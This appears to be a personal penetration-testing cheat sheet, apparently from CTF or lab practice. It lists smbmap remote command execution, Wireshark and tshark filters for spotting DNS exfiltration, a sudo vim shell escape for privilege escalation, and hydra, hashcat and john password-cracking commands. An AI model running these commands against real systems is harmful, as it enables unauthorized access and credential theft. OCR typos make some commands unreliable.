 #### enumerating -samba

search for commands  
smbmap \--help \| grep -i username  
  
smbmap -u \"admin\" -p \"passowrd\" -H 10.10.10.10 -x \"ipconfig\"  
-x = command

### wireshark

\### wireshark filters  
  
*// filters by post*  
http.request.method==POST  
smtp *// email*  
pop *// email*  
dns.qry.type == 1 -T fields -e dns.qry.name = show records present
**in** **this** pcap  
dns.flags.response == 0 = There are 56 unique DNS queries.  
tcp *// show tcp packets*  
*//find packets*  
edit \> find packets \> packet list : packet bytes \> **case**
sensitive: strings \> string \"pass\" :search  
  
*//DDOS ATTACK*  
look number **of** packets first column  
then \>statistics \> ipv4 statistics \> destination and ports  
  
*/// tshark cli*  
tshark -r dns.cap \| wc -l *//count how many packets are in a capture*  
tshark -r dns.cap -Y \"dns.qry.type == 1\" -T fields -e dns.qry.name
*//show records present in this pcap*  
tshark -r dnsexfil.pcap -Y \"dns.flags.response == 0\" \| wc -l  
tshark -r pcap -T fields -e dns.qry.name \| uniq \| wc -l *//There are
56 unique DNS queries.*  
tshark -r pcap \| head -n2 *//DNS server side to identify \'special\'
queries*  
tshark -r pcap -Y \"dns.flags.response == 0\" -T fields -e
\"dns.qry.name\" \| sed \"s/.m4lwhere.org//g\" \| tr -d \"\n\"
\`exfiltrate data with regx\`

#### Privilege scalation reverse shell

ssh -p 2222 mith@10.10.123.23  
sudo -ls \###list de su permisions  
  
sudo vim -c \':!/bin/sh\' \### privilege scalation

https://gtfobins.github.io/

#### other

hydra -l root -P passwords.txt \[-t 32\] ftp  
hydra -L usernames.txt -P pass.txt mysql  
hashcat.exe -m hash.txt rokyou.txt -O  
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput
0.10.10  
wpscan \--url https:*//10.10.10.10 \--enumerate u*  
netdiscover -i eth0  
john \--format=raw-md5 password.txt \[ To change password to plain text
\]
